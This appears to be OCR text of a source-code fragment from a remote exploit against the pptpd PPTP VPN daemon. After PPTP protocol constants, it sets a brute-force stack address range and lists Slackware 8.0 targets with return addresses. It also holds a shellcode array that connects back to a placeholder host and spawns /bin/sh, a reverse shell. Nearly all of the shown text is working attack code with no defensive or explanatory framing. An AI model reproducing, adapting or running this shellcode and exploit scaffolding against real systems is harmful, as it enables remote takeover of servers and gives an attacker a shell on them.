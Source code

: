     /* Message types */
    #define PPTP_CTRL_MESSAGE               1

    /* Control Connection Management */
    #define START_CTRL_CONN_RQST            1
    #define START_CTRL_CONN_RPLY            2
    #define STOP_CTRL_CONN_RQST             3
    #define STOP_CTRL_CONN_RPLY             4
    #define ECHO_RQST                       5
    #define ECHO_RPLY                       6

    // brute force values
    // Values can be increased both ways
    #define TOPOFSTACK 0xbffff800
    #define BOTTOMOFSTACK 0xbffff000
    #define STEP 64

    /* esdee I love you, call me sometime */
    char
    shellcode[] =
      "\x31\xc0\x31\xdb\x31\xc9\x51\xb1"
      "\x06\x51\xb1\x01\x51\xb1\x02\x51"
      "\x89\xe1\xb3\x01\xb0\x66\xcd\x80"
      "\x89\xc2\x31\xc0\x31\xc9\x51\x51"
      "\x68\x41\x42\x43\x44\x66\x68\xb0"
      "\xef\xb1\x02\x66\x51\x89\xe7\xb3"
      "\x10\x53\x57\x52\x89\xe1\xb3\x03"
      "\xb0\x66\xcd\x80\x31\xc9\x39\xc1"
      "\x74\x06\x31\xc0\xb0\x01\xcd\x80"
      "\x31\xc0\xb0\x3f\x89\xd3\xcd\x80"
      "\x31\xc0\xb0\x3f\x89\xd3\xb1\x01"
      "\xcd\x80\x31\xc0\xb0\x3f\x89\xd3"
      "\xb1\x02\xcd\x80\x31\xc0\x31\xd2"
      "\x50\x68\x6e\x2f\x73\x68\x68\x2f"
      "\x2f\x62\x69\x89\xe3\x50\x53\x89"
      "\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0"
      "\x01\xcd\x80";

    int st;
    struct target {
      char *desc;
      u_int32_t ret;
    } targets[] =
    {
      {"Slackware 8.0 Linux 2.4.18 pptpd-1.0.1", 0xbffff540},
      {"Slackware 8.0 Linux 2.4.18 pptpd-1.1.3", 0xbffff580},
    };

    struct pptp_header {
      u_int16_t length;               /* pptp message length incl header */
      u_int16_t pptp_type;            /* pptp message type */
      u_int32_t magic;                /* magic cookie */
      u_int16_t ctrl_type;            /* control message type */
      u_int16_t reserved0;            /* reserved */
    };
